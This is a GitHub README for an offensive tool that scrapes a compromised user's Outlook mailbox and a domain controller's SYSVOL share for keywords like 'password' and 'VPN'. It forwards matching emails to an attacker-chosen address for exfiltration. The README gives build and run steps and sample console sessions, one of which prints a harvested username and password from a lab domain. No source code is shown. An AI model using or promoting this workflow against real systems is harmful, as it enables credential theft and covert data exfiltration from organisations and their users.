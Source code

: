 # ScrapingKit
Scraping Kit is made up of several tools for scraping services for keywords, useful for initial enumeration of Domain Controllers or if you have popped a user's desktop, their outlook client. Each component has a function currently supports scraping and emailing the contents to a designated email address for easy exfiltration.

The kit contains one tool currently with more to come in the coming months and more customisation options.


- Outlook_and_DC_Scraper

## Outlook and DC Scraper (Super Scraper)

### What it is

It helps identify files that contain specific keywords in both emails via the Outlook desk app, and the local domain controller via the Policies and Scripts directories within the SYSVOL folder of an Active Directory domain. It then provides information about the matches and can be used to hunt for potential words such as username and password present in those files.

### How to setup/use

Read this blog post for more detailed information Add-Link

Compile overview

Required NuGet Pakages

1. Right-click on project 'Outlook_and_DC_Scraper' under Solution Explorer and select Manage NuGet Packages.
2. Click on Browse search for the below pakages and install.

```
Microsoft.Office.Interop.Outlook" Version="15.0.4797.1004"
MicrosoftOfficeCore" Version="15.0.0"
System.DirectoryServices" Version="7.0.1"
System.DirectoryServices.AccountManagement" Version="7.0.0"
```

TargetFramework > net6.0

Compile then execute with either PowerShell, CMD or if you have physical access simply double click it.
The following menu screen will load.

```
Please select an option:
1. Run Outlook Email Search
2. Run Active Directory Keyword Search
3. Exit
```


### Example Option 1 using the default keywords

After selecting option 1 you will be requested to add a destination email address, all matches will be forwarded to the added address.
 
```Please select an option:
1. Run Outlook Email Search
2. Run Active Directory Keyword Search
3. Exit
1
Enter the email address to forward matching emails:
dhfrdfdg@REDACTED.com
Would you like to only scrape for the following keywords: 'password', 'security', 'confidential', 'VPN', and 'WIFI' (Y/N)
Y
Matching email found. Forwarded the email information to dhfrdfdg@REDACTED.com
```


### Example Option 1 using user defined keywords

You can select the default keywords or add your own keywords by selecting N at the prompt.

```Please select an option:
1. Run Outlook Email Search
2. Run Active Directory Keyword Search
3. Exit
1
Enter the email address to forward matching emails:
dhfrdfdg@REDACTED.com
Would you like to only scrape for the following keywords: 'password', 'security', 'confidential', 'VPN', and 'WIFI' (Y/N)
n
Enter additional keywords (comma-separated):
happy1
Matching email found. Forwarded the email information to dhfrdfdg@REDACTED.com
```

### Example Option 2 DC scrape with user defined keyword

```
C:\Users\user2>C:\Users\user2\Desktop\Outlook_and_DC_Scraper_Combined.exe
Please select an option:
1. Run Outlook Email Search
2. Run Active Directory Keyword Search
3. Exit
2
Please provide at least one keyword as a command-line argument.
happy
Match found in file \\WIN-4Q0A4190APL.hacklab.local\SYSVOL\HACKLAB.LOCAL\Scripts\Test1\Herllo.txt!
Additional keywords found in the context:
user
username
name
username:
username:
Context:
sfsfisfjhsf sfjbsfj sf sf


username: happy1
password: test1
```
